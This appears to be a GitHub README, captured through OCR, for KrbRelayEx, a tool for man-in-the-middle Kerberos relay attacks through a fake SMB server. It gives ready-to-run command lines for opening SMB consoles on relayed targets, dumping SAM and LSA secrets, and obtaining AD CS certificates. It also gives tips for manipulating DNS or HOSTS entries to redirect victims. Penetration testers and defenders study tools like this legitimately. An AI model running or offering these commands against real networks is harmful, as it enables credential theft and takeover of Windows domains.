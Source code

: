 # KrbRelayEx

![Version](https://img.shields.io/badge/version-1.0-blue)  
Kerberos Relay and Forwarder for (Fake) SMB MiTM Server  
Created by [@decoder_it](https://github.com/decoder-it)

---

## Overview

**KrbRelayEx** is a tool designed for performing Man-in-the-Middle (MitM) attacks by relaying Kerberos AP-REQ tickets. It listens for incoming SMB connections and forwards the AP-REQ to the target host, enabling access to SMB shares or HTTP AD CS (Active Directory Certificate Services) endpoints.  

The tool can span several SMB consoles, and the relaying process is completely transparent to the end user, who will seamlessly access the desired share.  

GitHub Repository: [https://github.com/decoder-it/KrbRelayEx](https://github.com/decoder-it/KrbRelayEx)  
Credits: [cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay)

---

## Features

- Relay Kerberos AP-REQ tickets to access SMB shares or HTTP ADCS endpoints.
- Interactive or background SMB consoles for managing multiple connections.
- Supports dumping SAM & LSA secrets.
- Transparent relaying process for seamless user access.
- Flexible attack configurations with support for SSL and port redirection.

---

## Usage

```bash
KrbRelayEx.exe -spn <SPN> [OPTIONS] [ATTACK]
SMB Attacks
Option	Description
-console	Start an interactive SMB console
-bgconsole	Start a background SMB console via sockets
-list	List available SMB shares on the target system
-bgconsolestartport	Specify the starting port for background SMB console sockets
-secrets	Dump SAM & LSA secrets from the target system
HTTP Attacks
Option	Description
-endpoint <ENDPOINT>	Specify the HTTP endpoint to target (e.g., CertSrv)
-adcs <TEMPLATE>	Generate a certificate using the specified template
Options
Option	Description
-redirectserver <IP>	Specify the IP address of the target server for the attack
-ssl	Use SSL transport for secure communication
-spn <SPN>	Set the Service Principal Name (SPN) for the target service
-redirectports <PORTS>	Provide a comma-separated list of ports to forward (e.g., 3389,135,5985)
-smbport <PORT>	Specify the SMB port to listen on (default: 445)
Examples
Start an interactive SMB console
bash
Copy code
KrbRelayEx.exe -spn SMB/target.domain.com -console -redirecthost <ip_target_host>
List SMB shares on a target
bash
Copy code
KrbRelayEx.exe -spn SMB/target.domain.com -list
Dump SAM & LSA secrets
bash
Copy code
KrbRelayEx.exe -spn SMB/target.domain.com -secrets -redirecthost <ip_target_host>
Start a background SMB console on port 10000 upon relay
bash
Copy code
KrbRelayEx.exe -spn SMB/target.domain.com -bgconsole -redirecthost <ip_target_host>
Generate a certificate using ADCS with a specific template
bash
Copy code
KrbRelayEx.exe -spn HTTP/target.domain.com -endpoint CertSrv -adcs UserTemplate -redirecthost <ip_target_host>
Relay attacks with SSL and port forwarding
bash
Copy code
KrbRelayEx.exe -spn HTTP/target.domain.com -ssl -redirectserver 192.168.1.50 -redirectports 3389,5985
Notes
Relaying Behavior:
KrbRelayEx intercepts and relays the first authentication attempt, then switches to forwarder mode for all subsequent incoming requests. Press r anytime to restart relay mode.

DNS Manipulation:
This tool is particularly effective if you can manipulate DNS names. Scenarios include:

Being a member of the DNS Admins group.
Having zones where unsecured DNS updates are allowed in Active Directory domains.
Gaining control over HOSTS file entries on client computers.
Background Consoles:
Ideal for managing multiple SMB consoles simultaneously.
